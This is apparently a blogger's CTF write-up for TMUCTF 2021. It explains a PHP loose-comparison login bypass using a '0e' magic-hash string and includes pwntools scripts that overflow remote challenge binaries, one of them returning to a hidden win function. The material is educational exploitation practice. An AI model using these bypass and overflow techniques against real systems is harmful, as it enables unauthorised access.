 ```yaml
---
title: "TMU{CTF Writeup}"
categories: ["Hacking", "CTF", "Binary Exploitation", "Web Hacking"]
tags: ["hacking", "CTF", "Binary Exploitation", "Web Hacking", "Steganography"]
date: "2021-09-11"
type: "post"
weight: 400
keywords: "hacking pentesting c source code auditing static analysis"
toc: "true"
---
```


This was a well rounded CTF in my opinion with good challenges for beginners (like me) that were not too trivial. Instead of the standard `robots.txt` or source code inspection they had challenges where one could easily find clues to get started researching the challenges. That is even if the solution wasn't immediately clear you had at least some direction for a google search and a shot at solving the challenge during the CTF runtime.

I didn't get a chance to spend too long playing the CTF and had a few near misses but here are a few challenge writeups.

## Web

### Login

Straight away we hit up `/robots.txt` as is my approach for every ctf web challenge. This yields some PHP sauce:


```php
if (isset($_GET["password"])) {
    if (hash("md5", $_GET["password"]) == $_GET["password"]) {
        echo "<h1>Here is the flag:</h1>" . $flag;
    } else {
        echo "Try harder!";
    }
}
```

Which I look at and have two guesses:

+ md5 collisions
+ type juggling

Now its important to note that 'type juggling' is a term I have *heard* of in relation to PHP vulnerabilities. But which I knew nothing about really. 

Now we focus on the only important line here:

`if (hash("md5", $_GET["password"]) == $_GET["password"])` 


The first guess is based on the idea that `md5` is a known vulnerable hashing algorithm which fails on several properties of a cryptographic hash:

+ Collision resistance
   + It should be hard to choose any two messages that result in the same hash
+ Preimage resistance
   + Given the hash, it should be hard to find the original message
+ Second Preimage Resistance 
   + Given the hash and the original message, it should be hard to come up with a second message that has the same hash


None of these quite fit the scenario we have here but remembering I don't know anything about type juggling I decide to investigate my first guess further (md5 could be that bad right?). After googling around for awhile I found a combination of "it might be possible" and a question [here](https://crypto.stackexchange.com/questions/19493/is-there-a-string-thats-hash-is-equal-to-itself) on the exact question at hand:

> Is it possible to have an md5 hash equal its input?

But since the answer was inconclusive and no example of such a string was provided I decided to learn about type juggeling.

First port of call is of course the amazing repo [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). Which provided the perfect overview of PHP type juggling in the presence of the lose comparison `==` operator. I then setup a PHP repel with the function using [writephponline](https://www.writephponline.com/).

![](https://i.imgur.com/z5zTCOU.png)

We can then start testing out how PHP handles certain inputs. At first I tried some simple things like int `0` (`$password = 0`) which obviously worked but would not work against the remote host since upon a quick confirmation search the `$_GET["password"]` in the original source will return a string. 

Hence we look for a string comparison that evaluates to `0`. After a few tries and searching around I came up with [this](https://stackoverflow.com/questions/62293578/ctf-type-juggling-with-ripemd160-hash#62300133) stack post which explains and also drops a working string `0e215962017` which PHP will treat as a float leading to a zero eval.

![](https://i.imgur.com/6vZWSDr.png)

This works against the server implementation too and we collect the flag.

> TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}

## pwn

### Warmup 

This one was quite a straightforward BOF challenge if you know about even basic overflow challenges you would likely have just tried a long string against the input to test for offsets and fingerprint the binary. In this case a long enough input such as:

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

Will overwrite a value on the stack which is compared to `0` in a if condition somewhere causing the check to pass and the flag to be printed.

It's easiest just to do this overflow with netcat but here's a script anyway.

```python
from pwn import *

HOST = '194.5.207.56'
PORT = '7000'
proc = remote(HOST, PORT)
proc.sendlineafter('Let us know your name: \n', b'A' * 242)
log.success(proc.recvall())
```

> TMUCTF{n0w_y0u_4r3_w4rm3d_up}

### Baby Pwn

We start out by checking the memory protections and gather other info about the binary which may indicate how it is exploitable. I like to run a simple script I made called [binaliser](https://github.com/Angus-C-git/binaliser) which makes guesses based on memory protections enabled and other metrics about the strategy for the binary. 

![](https://i.imgur.com/emmZ0NX.png)

In this case we have the following memory protections:


```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

with the **NX** bit set and no win function detected, this indicates either a ROP challenge or a win function with a name not detected by the script. We can get more of an idea about the potential for rop by checking what gadgets are present in the binary.

After running the binary and ropper I note that the gadgets are pretty sparse with only `124` detected and not many of those useful.

Thus its time for the next trick in the book, static analysis. My disassembler of choice is [binary ninja](https://binary.ninja/) since I could pick it up for 'cheap' as a student. Looking at the disassembled binary gives us this main function:


{{< image ref="images/blog/ctfs/mainBabyPwn.png" >}}


But also a strange function named **wow**, which has the following disassembly:


{{< image ref="images/blog/ctfs/wowBabyPwn.png" >}}

This is our **win** function since it opens the flag file to read and prints it to stdout. So now we have a plan of attack:

1. Control the return pointer 
2. Return to the 'wow' function

Now when we run the binary we get the following output:

{{< image ref="images/blog/ctfs/outBabyPwn.png" >}}

If we attempt a trivial overflow we will fail the compare in the main function disassembly:

```nasm
cmp     dword [rbp-0x4], 0xcafe
```

and fail to reach the vulnerable code in `helloUser` that will let us control the return pointer. We beat this custom canary by calculating the offset to it and then inserting the expected value as follows:

```python
log.info(f"offset to cmp @: {cyclic_find('iaa') - 4}")
# pass inital cmp
canary = flat({
    32 - 4: p64(0xcafe)
})
```

This takes us to the vulnerable function and the next stage of our exploit: controlling the return pointer and returning to **wow**, our win function. This is just a simple overflow which we can simplify with pwntools `flat` and `symbols` functions once again to complete the exploit chain.

**Exploit**

```python 
log.info(f"offset to cmp @: {cyclic_find('iaa') - 4}")
# pass inital cmp
canary = flat({
    32 - 4: p64(0xcafe)
})
proc.sendlineafter('enter your name:', canary)

## win @wow    
payload = flat({
    136: elf.symbols['wow']
})

proc.sendlineafter('yourself ;;)\n', payload)

# shellit
proc.interactive()
```

> TMUCTF{w0w!_y0u_c0uld_f1nd_7h3_w0w!}
